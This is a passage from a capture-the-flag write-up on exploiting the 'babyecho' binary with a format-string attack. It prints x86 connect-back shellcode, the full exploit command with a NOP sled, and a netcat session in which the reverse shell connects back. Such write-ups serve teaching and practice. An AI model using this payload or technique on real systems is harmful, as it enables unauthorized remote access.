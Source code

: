 I like using those two against the real server to see if things are working. The real server will disconnect you immediately for "\\xcd\\x03", and the server will time out with "\\xeb\\xfe".

## Shellcode

For the final step (to exploiting it locally), let's grab some shellcode from the Internet.

This is some shellcode I've used in the past - it's x86, and it connects back to my ip address on port 0x4444 (17476). I've put some additional quotes around the ip address and the port number so they're easy to find:

```

"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\x31\xdb\xb3\x02\x68""\xce\xdc\xc4\x3b""\x66\x68""\x44\x44""\x66\x53\xfe\xc3\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x31\xc9\xb1\x03\xfe\xc9\xb0\x3f\xcd\x80\x75\xf8\x31\xc0\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x52\x89\xe2\xb0\x0b\xcd\x80"
```

We replace the "\\xcc" or "\\xeb\\xfe" with all that muck, and give it a run:

```

$ <span class="in">echo -e '\x91\xc6\xff\xff%99x%7$n\n''\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%192x%7$n''%246x%8$n''%57x%9$n''%10$n''\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90'"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\x31\xdb\xb3\x02\x68""\xce\xdc\xc4\x3b""\x66\x68""\x44\x44""\x66\x53\xfe\xc3\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x31\xc9\xb1\x03\xfe\xc9\xb0\x3f\xcd\x80\x75\xf8\x31\xc0\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x52\x89\xe2\xb0\x0b\xcd\x80" | ./babyecho > /dev/null</span>
```

Meanwhile, on my server, I'm listening for connections, and sure enough, a connection comes:

```

$ <span class="in">nc -vv -l -p 17476</span>
listening on [any] 17476 ...
connect to [206.220.196.59] from 71-35-121-132.tukw.qwest.net [71.35.121.123] 56307
  <span class="in">pwd</span>
/home/ron/defcon-quals/babyecho
<span class="in">ls /</span>
applications-merged
bin
boot
dev
etc
home
lib
lib32
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
stage3-amd64-20130124.tar.bz2
sys
tmp
torrents
usr
var
vmware
```